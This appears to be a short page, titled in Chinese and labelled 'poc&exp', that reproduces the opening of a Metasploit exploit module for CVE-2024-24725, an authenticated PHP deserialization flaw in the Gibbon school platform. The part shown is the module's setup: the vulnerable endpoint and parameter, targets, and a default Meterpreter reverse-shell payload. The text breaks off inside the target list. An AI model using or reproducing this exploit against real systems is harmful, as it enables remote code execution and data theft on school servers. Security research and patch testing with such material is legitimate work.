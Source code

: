 学校平台认证PHP反序列化漏洞  
  
  
poc&exp  
```
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking
 
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::CmdStager
  include Msf::Exploit::FileDropper
  prepend Msf::Exploit::Remote::AutoCheck
 
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Gibbon School Platform Authenticated PHP Deserialization Vulnerability',
        'Description' => %q{
          A Remote Code Execution vulnerability in Gibbon online school platform version 26.0.00 and lower
          allows remote authenticated users to conduct PHP deserialization attacks via columnOrder in a
          POST request to the endpoint `/modules/System%20Admin/import_run.php&type=externalAssessment&step=4`.
          As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
          potentially resulting in complete system compromise, data exfiltration, or unauthorized access
          to sensitive information.
        },
        'License' => MSF_LICENSE,
        'Author' => [
          'h00die-gr3y <h00die.gr3y[at]gmail.com>', # MSF module contributor
          'Ali Maharramli', # SecondX.io Research Team - discovery of the vulnerability
          'Fikrat Guliev', # SecondX.io Research Team - discovery of the vulnerability
          'Islam Rzayev' # SecondX.io Research Team - discovery of the vulnerability
        ],
        'References' => [
          ['CVE', '2024-24725'],
          ['URL', 'https://attackerkb.com/topics/ogKGAB44BP/cve-2024-24725'],
          ['PACKETSTORM', '177635'],
          ['EDB', '51903']
        ],
        'DisclosureDate' => '2024-03-18',
        'Platform' => ['php', 'unix', 'linux', 'win'],
        'Arch' => [ARCH_PHP, ARCH_CMD, ARCH_X64, ARCH_X86],
        'Privileged' => false,
        'Targets' => [
          [
            'PHP',
            {
              'Platform' => ['php'],
              'Arch' => ARCH_PHP,
              'Type' => :php,
              'DefaultOptions' => {
                'PAYLOAD' => 'php/meterpreter/reverse_tcp'
              }
            }
          ],
          [
            'Unix Command',
            {
              'Platform' => ['unix', 'linux'],
              'Arch' => ARCH_CMD,
```